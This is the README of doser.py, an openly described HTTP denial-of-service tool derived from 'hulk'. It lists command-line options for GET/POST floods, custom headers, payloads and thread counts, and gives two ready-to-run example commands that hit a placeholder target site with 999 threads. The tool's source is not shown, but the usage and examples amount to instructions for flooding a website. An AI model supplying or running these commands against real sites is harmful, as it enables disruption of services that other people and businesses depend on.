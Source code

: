 # doser.py
DoS tool for HTTP requests (extended by hulk but has more functionalities) written in Python:
![](https://raw.githubusercontent.com/Quitten/doser.py/master/doser.jpg)
# Usage
usage: doser.py [-h] [-g G] [-p P] [-d D] [-ah AH] [-t T]

optional arguments:

  -h, --help  show this help message and exit
  
  -g        Specify GET request. Usage: -g '< url >'
  
  -p        Specify POST request. Usage: -p '< url >'
  
  -d        Specify data payload for POST request
  
  -ah      Specify addtional header
  
  -t        Specify number of threads to be used

# Examples
999 threads sends POST requests with json data:

```bash
python doser.py -t 999 -p 'https://targeted.site.com' -ah 'Content-Type: application/json' -d '{"json": "payload"}'
```

999 threads sends GET requests:

```bash
python doser.py -t 999 -g 'https://targeted.site.com'
```
